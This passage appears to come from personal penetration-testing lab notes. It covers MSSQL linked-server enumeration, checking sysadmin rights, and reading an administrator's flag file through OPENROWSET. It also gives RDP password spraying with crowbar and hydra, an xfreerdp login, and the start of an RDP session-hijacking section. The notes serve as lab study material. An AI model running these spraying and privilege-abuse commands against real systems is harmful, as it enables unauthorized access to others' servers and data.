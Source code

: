 ```mssqclient
SQL (john  guest@msdb)> enum_links
```

![[Pasted image 20241003015747.png]]

❗: linked servers can be local such is the case of local.test.linked.srv


We can then check if john is an admin at local.test.linked.srv (which we can tell he is by getting 1 as an output)

```
EXECUTE('SELECT @@servername, @@version, SYSTEM_USER, IS_SRVROLEMEMBER(''sysadmin'')') AT [local.test.linked.srv];
```

![[Pasted image 20241003015953.png]]

We do then get file r/w permissions on local.test.linked.srv which we will use to retrieve the flag found in `C:/Users/Administrator/desktop/flag.txt`

```
execute ('select * from OPENROWSET(BULK ''C:/Users/Administrator/desktop/flag.txt'', SINGLE_CLOB) AS Contents') at [local.test.linked.srv];
```

---

# <mark class="hltr-pink">RDP</mark>

## <mark class="hltr-cyan">RDP Password Spraying</mark>

- Crowbar
```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

- Hydra
```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```


## <mark class="hltr-cyan">RDP Login</mark>

```
xfreerdp /v:192.168.2.143 /u:admin /p:password123 /dynamic-resolution
```

## <mark class="hltr-cyan">RDP Session Hijacking</mark>

We are logged in as the user `juurena` (UserID = 2) who has <mark class="hltr-green">Administrator</mark> privileges. Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.
